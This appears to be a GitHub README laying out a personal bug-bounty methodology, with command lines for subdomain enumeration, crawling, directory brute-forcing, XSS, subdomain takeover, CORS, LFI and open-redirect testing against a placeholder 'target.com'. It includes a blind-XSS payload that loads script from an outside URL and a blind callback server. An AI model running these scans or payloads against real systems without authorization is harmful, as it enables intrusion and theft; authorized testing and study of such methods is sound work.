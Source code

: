 # 🐦‍🔥 Bug Hunting Methodology 🚀  

## 📌 Overview  
This repository contains my **Bug Hunting Methodology** for discovering vulnerabilities in web applications. It includes **subdomain enumeration, crawling, JavaScript analysis, directory brute-forcing, XSS, subdomain takeover, CORS misconfigurations, LFI, Open Redirects**, and more.  

## 🔥 Methodology Steps  

### **1️⃣ Subdomain Enumeration**  

1. subfinder -d target.com -all -recursive > subdomains.txt  
2. assetfinder --subs-only target.com >> subdomains.txt  
3. amass enum -passive -d target.com >> subdomains.txt  
4. cat subdomains.txt | sort -u > subdomains_final.txt  
5. cat subdomains_final.txt | httpx -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

### **2️⃣ Crawling & URL Extraction** 
1. katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
2. Alternative: katana -u subdomains_alive.txt -d 5 -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
3. cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"  

### **3️⃣ JavaScript Analysis** 
1. cat allurls.txt | grep -E "\.js$" >> js.txt  
2. cat js.txt | nuclei -t ~/nuclei-templates/http/exposures/  
3. cat js.txt | xargs -I {} curl -s {} | grep -oP 'https?:\/\/[^\"\']+'  

### **4️⃣ Directory & File Discovery** 
1. dirsearch -u https://target.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,py,php,log,rar,zip,tar,txt,xml,js,json  
2. ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  

### **5️⃣ XSS Testing** 
1. subfinder -d target.com | httpx -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://lnkd.in/gBHQ5bTX></script>' -parameters  
2. dalfox file allurls.txt --blind "https://yourbxssserver.com"  

### **6️⃣ Subdomain Takeover** 
1. subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl  
2. subjack -w subdomains_alive.txt -t 50 -o takeover.txt -ssl  

### **7️⃣ CORS Misconfiguration** 
1. python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"  
2. nuclei -list subdomains_alive.txt -t ~/Priv8-Nuclei/cors

### **8️⃣ LFI, Open Redirect & Other Tests** 
1. cat allurls.txt | gf lfi | nuclei -tags lfi  
2. cat allurls.txt | gf redirect | openredirex -p ~/openRedirect  
3. python3 paramspider.py --domain target.com --subs False --level high --exclude jpg,png,css,js  

### **🔗 Tools Used** 
* Subfinder
* Assetfinder
* Amass
* HTTPX
* Katana
* Nuclei
* GF
* Dirsearch
* FFUF
* Dalfox
* Subzy
* Subjack
* Corsy
* OpenRedireX
* ParamSpider

### **🚀 Next Steps** 
* Test against bug bounty programs
* Automate workflow
* Improve methodology

### **💀 Disclaimer** 
This repository is for educational purposes only. Do not use these techniques on unauthorized systems. I am not responsible for any misuse of this information.

### **🌟 Connect With Me** 
##### 📺 YouTube: [[Cybertech Secrets]](https://www.youtube.com/@CyberTechSecrets)
##### 📧 Email: [cybertechsecrets@gmail.com]
##### 🔗 LinkedIn: [[LinkedIn]](https://www.linkedin.com/in/abu76/)
